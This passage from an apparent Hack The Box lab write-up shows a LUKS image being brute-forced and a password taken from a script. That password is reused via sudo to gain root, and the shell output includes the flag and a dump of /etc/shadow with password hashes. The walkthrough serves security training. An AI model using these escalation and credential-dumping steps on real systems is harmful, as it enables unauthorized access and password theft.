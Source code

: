 ### Step 4
Looking for ways to handle the LUKS encryption I find a few brute force tools, download and install [bruteforce-luks](https://github.com/glv2/bruteforce-luks) on the Virtual Box VM and get at it.
Very quickly we get the password - `abc123`

![](/assets/images/htb-writeup-moderators/moderators19.png)

The disk only contains a directory named `scripts`, and within a set of subfolders. In the directory `all-in-one` there is one script with a timestamp that's not like the others - `distro_update.sh`<br>
Look in the script and we find a password, probably for user `john` - `$_THE_best_Sysadmin_Ever_`

![](/assets/images/htb-writeup-moderators/moderators20.png)

```bash
john@moderators:~/stuff/VBOX$ sudo su
[sudo] password for john: $_THE_best_Sysadmin_Ever_

root@moderators:/home/john/stuff/VBOX# id && cat /root/root.txt && cat /etc/shadow
uid=0(root) gid=0(root) groups=0(root)
fa3a5c96cf4976a1d91f804c6372e3db
root:$6$aqIOGu.rJRXjVGgt$lN7qDpHZdrBxEcRi4VxcJt4dpNXwmxLsO7mTliULzPVcJyy5OPxLP3SmvgcprzkeZLbX.lPrqEg3JYYyV3Ayo0:19021:0:99999:7:::
john:$6$PK0A253j816qSMhV$4Oy/1b8vR6K1XDcvBMzAVZn.MOVLiBWDHOugQorKdhVBnbi1o.fSKcSzrltl9z7hiGekw6bkt18XH14e0ALTC0:18890:0:99999:7:::
lexi:$6$IXHONvrvfEmCO7dH$banmCiCTcf7rcYWQr7jn3GkYeRpfQYWxafrlhhpcpdOfqkMwBEpFXVinENnfhEa3EdiE92v30PBhp6GqF6w67/:18890:0:99999:7:::
```

